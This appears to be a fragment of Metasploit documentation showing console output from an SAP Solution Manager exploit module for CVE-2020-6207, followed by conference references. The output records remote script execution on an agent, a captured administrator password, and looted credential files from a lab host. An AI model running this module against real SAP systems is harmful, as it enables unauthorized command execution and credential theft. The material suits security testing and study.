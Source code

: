 ```
[*] Delete script: ginMlA2izrNi on agent: test_linux
[*] Server stopped.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > creds
Credentials
===========

host          origin        service           public      private    realm  private_type  JtR Format
----          ------        -------           ------      -------    -----  ------------  ----------
172.16.30.46  172.16.30.46  50000/tcp (soap)  j2ee_admin  asdQWE123         Password

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > services
Services
========

host          port   proto  name  state  info
----          ----   -----  ----  -----  ----
172.16.30.46  50000  tcp    soap  open   SAP Solution Manager

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > vulns

Vulnerabilities
===============

Timestamp                Host          Name                                                                                               References
---------                ----          ----                                                                                               ----------
2021-03-27 17:49:37 UTC  172.16.30.46  SAP Solution Manager remote unauthorized OS commands execution                                     CVE-2020-6207,URL-https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf,URL-https://github.com/chipik/SAP_EEM_CVE-2020-6207
2021-03-27 17:49:41 UTC  172.16.30.14  Diagnostics Agent in Solution Manager, stores unencrypted credentials for Solution Manager server  CVE-2019-0307,URL-https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf

msf6 auxiliary(admin/sap/cve_2020_6207_solman_rce) > loot

Loot
====

host          service  type                          name                                                            content     info                                path
----          -------  ----                          ----                                                            -------     ----                                ----
172.16.30.14           smdagent.secstore.properties  /usr/sap/DAA/SMDA98/SMDAgent/configuration/secstore.properties  text/plain  SMD Agent secstore.properties file  /Users/vladimir/.msf4/loot/a228e5f820edc34bc767-20210327204941_SAP_TEST_172.16.30.14_smdagent.secstor_283920.txt

```


[1]: https://conference.hitb.org/hitblockdown002/materials/D2T1%20-%20SAP%20RCE%20-%20The%20Agent%20Who%20Spoke%20Too%20Much%20-%20Yvan%20Genuer.pdf
[2]: https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf
[3]: https://blogs.sap.com/2016/02/16/solution-manager-72-installation-and-configuration-i-installations/